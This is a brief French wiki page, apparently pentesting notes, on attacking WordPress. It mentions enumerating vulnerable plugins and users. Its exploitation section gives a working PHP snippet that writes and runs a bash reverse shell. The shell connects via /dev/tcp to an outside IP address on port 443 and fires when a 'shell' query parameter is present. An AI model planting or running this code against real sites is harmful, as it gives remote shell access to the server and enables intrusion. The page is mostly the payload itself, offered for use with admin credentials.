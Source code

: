```yaml
---
title: WordPress
permalink: /WordPress/
---
```


# WordPress

Enumeration
-----------

Lors de cette étape on va chercher à identifier les plugins vulnérables présents sur le wordpress ainsi que les utilisateurs présents.

Exploitation
------------

### Reverse Shell

Avec un compte admin il est possible d'obtenir un reverse shell:

``` php
<?php
if(isset($_GET["shell"]))
{
    system("echo 'bash -i >& /dev/tcp/192.168.30.229/443 0>&1' > /tmp/shell.sh");
    system("bash /tmp/shell.sh");
}
?>
```

[Category:Technologies](/Category:Technologies "wikilink")

